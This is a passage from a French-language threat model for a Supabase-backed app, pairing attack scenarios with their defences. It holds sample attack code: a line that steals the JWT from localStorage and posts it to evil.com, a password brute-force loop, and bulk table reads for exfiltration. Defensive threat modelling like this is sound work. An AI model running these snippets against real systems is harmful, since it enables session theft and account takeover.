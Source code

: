 ### Scénario 2 : SQL Injection (via Supabase)

**Attaque** :
```javascript
// Tentative d'injection
const email = "admin'--";
await supabase.from('profiles').select('*').eq('email', email);
```

**Défense** :
```sql
-- ✅ Supabase utilise des prepared statements (protégé)
-- ✅ RLS empêche l'accès non autorisé
-- ✅ Validation stricte des inputs côté frontend ET backend
```

### Scénario 3 : Session Hijacking

**Attaque** :
```javascript
// Vol du JWT token via XSS
const token = localStorage.getItem('supabase.auth.token');
fetch('https://evil.com/steal', { method: 'POST', body: token });
```

**Défense** :
```typescript
// ✅ CSP empêche XSS
// ✅ HttpOnly cookies (Supabase utilise localStorage, mais avec refresh tokens courts)
// ✅ JWT expiration courte (1h par défaut)
// ✅ Refresh token rotation
```

### Scénario 4 : Account Takeover

**Attaque** :
```javascript
// Brute force du mot de passe
for (const pwd of commonPasswords) {
  await supabase.auth.signInWithPassword({ email: 'victim@example.com', password: pwd });
}
```

**Défense** :
```typescript
// ✅ Rate limiting (5 tentatives / 5 minutes)
// ✅ Mot de passe fort obligatoire (12+ caractères, complexité)
// ✅ Blocage temporaire après X tentatives échouées
// ✅ Email d'alerte après tentatives suspectes
// ✅ 2FA (à implémenter)
```

### Scénario 5 : Data Exfiltration

**Attaque** :
```javascript
// Extraction massive de données
const allProfiles = await supabase.from('profiles').select('*');
const allAthletes = await supabase.from('athlete_profiles').select('*');
// Envoyer vers un serveur externe
```
